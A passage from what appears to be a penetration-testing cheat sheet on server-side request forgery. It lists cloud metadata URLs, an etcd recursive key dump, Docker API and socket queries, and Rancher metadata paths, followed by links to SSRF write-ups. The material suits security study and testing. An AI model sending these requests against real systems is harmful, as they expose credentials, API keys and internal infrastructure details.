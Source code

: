 ```
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### Kubernetes ETCD

Can contain API keys and internal ip and ports

```
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### Docker

```
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

### [Rancher](https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/)

```
curl http://rancher-metadata/<version>/<path>
```

### References

```
https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf
```

{% embed url="https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978" %}

{% embed url="https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0" %}

{% embed url="https://subhajitsaha.com/bypassing-ssrfs-like-a-king/" %}

{% embed url="https://github.com/jdonsec/AllThingsSSRF" %}



